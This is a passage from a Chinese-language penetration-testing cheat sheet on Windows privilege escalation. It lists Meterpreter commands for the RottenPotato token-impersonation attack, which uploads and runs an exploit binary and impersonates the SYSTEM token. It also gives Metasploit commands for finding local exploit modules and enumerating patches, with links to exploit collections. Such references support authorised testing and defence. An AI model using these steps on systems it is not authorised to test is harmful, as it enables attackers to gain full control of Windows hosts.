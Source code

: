 #### RottenPotato

> 将服务帐户本地提权至SYSTEM
>
> https://github.com/foxglovesec/RottenPotato
>
> https://github.com/breenmachine/RottenPotatoNG

```shell
# 查看当前用户Token
getuid
# 查看当前用户特权
getprivs
# 加载incognito模块
load incognito
# 列出当前主机所有Token
list_token –u
# 上传rottenpotato
upload /root/rottenpotato.exe .
# 执行rottenpotato
execute -Hc -f rottenpotato.exe
# 将SYSTEM Token添加到Impersonate user tokens下
impersonate_token "NT AUTHORITY\\SYSTEM"
# 返回之前的Token
rev2self、drop_token
```

> 在运行`rottenpotato.exe`后快速模拟令牌（或运行`list_tokens -u`）很重要。在当前的实现中，令牌似乎在`rottenpotato.exe`运行后不久就消失了。因此在执行程序后，立即执行`list_token -u`查看模拟令牌，并立即进行模拟令牌操作`impersonate_token`。

### Windows内核漏洞提权

#### windows-kernel-exploits

> Windows平台提权漏洞集合: 
>
> https://github.com/SecWiki/windows-kernel-exploits

metasploit中查找提权模块：

```msf
search exploit/windows/local Privilege
search ms
```

#### enum_patches

```msf
use post/windows/gather/enum_patches
set session 5
run
```

#### Windows ClientCopyImage Win32k Exploit
